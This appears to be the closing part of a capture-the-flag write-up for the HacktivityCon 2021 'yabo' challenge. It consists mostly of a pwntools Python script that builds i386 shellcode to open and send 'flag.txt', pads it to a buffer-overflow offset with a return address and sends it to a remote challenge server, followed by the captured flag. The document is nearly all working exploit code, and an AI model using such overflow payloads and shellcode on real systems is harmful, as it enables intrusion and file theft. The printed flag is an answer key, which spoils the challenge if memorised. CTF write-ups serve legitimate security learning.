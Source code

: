 ```python
from pwn import *
context.arch = 'i386'

shellcode = asm('''
                xor eax,eax
                xor ecx,ecx

                push eax
                push 0x7478742e
                push 0x67616c66
                mov ebx,esp
                
                mov al,5
                int 0x80

                xor ebx,ebx
                mov cl,al

                mov bl,4
                xor edx,edx

                mov al,187
                int 0x80
            ''')

callrax = 0x0804901d

offset = cyclic_find(0x6b61616c)

payload = b""
payload += shellcode
payload += b"\x90" * (offset - len(shellcode))
payload += p32(callrax)

p = remote("challenge.ctf.games",32762)
print(p.recv())
p.send(payload)
print(p.recvall())
```

<img src="/assets/img/hacktivitycon/yabo_sol.png">

flag is <span style="color:red">`flag{2f20f16416a066ca5d4247a438403f21}`</span>

> you can find challenges and exploit <a href="https://github.com/kirimoe/hacktivitycon2021">Here</a>